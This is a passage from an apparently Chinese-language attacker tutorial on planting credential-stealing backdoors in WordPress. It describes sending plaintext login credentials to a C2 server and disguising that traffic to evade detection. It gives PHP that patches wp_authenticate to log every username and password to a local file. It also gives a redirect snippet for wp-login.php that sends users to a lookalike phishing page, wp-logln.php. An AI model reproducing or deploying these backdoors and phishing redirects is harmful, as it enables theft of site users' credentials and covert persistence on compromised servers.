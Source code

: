 在 c2 建立监听 当 wordpress 用户登录时 就会向 c2 发送明文账号密码[![](assets/1706513536-93b483fe3c8549430ce28b486f6ec726.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705049648036-6bc3a997-6283-44ec-97a1-acd7ef719939.png#averageHue=%2344484d&clientId=u73ac5ba2-244f-4&from=paste&height=208&id=ucb42f755&originHeight=416&originWidth=1424&originalType=binary&ratio=2&rotation=0&showTitle=false&size=116522&status=done&style=none&taskId=u9c4e8158-08ec-418c-8484-61a3cd40b1b&title=&width=712)  
对于明文密码的传递可以通过 dns\_get\_record 等函数进行流量的特征脱敏  
对于后门部分可以通过规避 webshell 检测工具的思路编写

但是这样的实现方式总归都很容易察觉 并且 system 之类的函数在应用部署后基本就是默认禁用

所以还是使用写入本地文件 隔一段时间再上线查看比较可靠

```plain
function wp_authenticate($username, $password) {

    $username = sanitize_user($username);
    $password = trim($password);
  file_put_contents('accesss.log',$username.$password);
   ...
```

[![](assets/1706513536-924a6c71e35fad3d3753496b9b84402b.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705057214590-b48ec082-f011-4309-949f-8917db67a1f8.png#averageHue=%230d1414&clientId=u73ac5ba2-244f-4&from=paste&height=124&id=uf7cb4e9b&originHeight=248&originWidth=1002&originalType=binary&ratio=2&rotation=0&showTitle=false&size=103557&status=done&style=none&taskId=uba5567ac-9c7d-49ee-b15e-7aadeebf323&title=&width=501)

### 钓鱼劫持

针对安全意识不强的操作人员 可以通过钓鱼劫持的方式将访问/wp-login.php 的请求重定向到钓鱼页面，在钓鱼网站输入密码后再重定向到原本的登录界面  
针对不出网的环境 可以部署相似文件名的本地文件做鱼饵 如 wp-logln.php  
1.在 wp\_login.php 中插入重定向到 wp\_logln.php 的语句 通过 session 字段避免重定向死循环

```plain
session_start();
$host = $_SERVER['HTTP_HOST'];
if(!isset($_SESSION['redirected'])){
    $_SESSION['redirected'] = true;
    header('Location: http://' . $host . '/wp-logln.php');
}
```
